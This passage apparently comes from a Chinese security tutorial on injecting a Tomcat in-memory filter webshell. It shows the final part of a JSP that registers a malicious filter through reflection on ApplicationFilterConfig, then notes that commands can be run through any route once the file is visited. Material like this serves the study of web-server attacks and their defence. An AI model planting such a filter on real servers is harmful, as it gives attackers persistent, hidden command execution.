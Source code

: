 ```java
    // 利用反射创建FilterConfig，并且将filterDef和standardContext作为参数进行传入进行封装filterDe
    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

    // 添加到filterConfigs中
    filterConfigs.put(filterName,applicationFilterConfig);
%>
```

访问上传的内存马文件路径使其执行代码，注册内存马
![image-20221031172346671](images/image-20221031172346671.png)

接着访问其他路由都可以成功执行命令
![image-20221031172405231](images/image-20221031172405231.png)
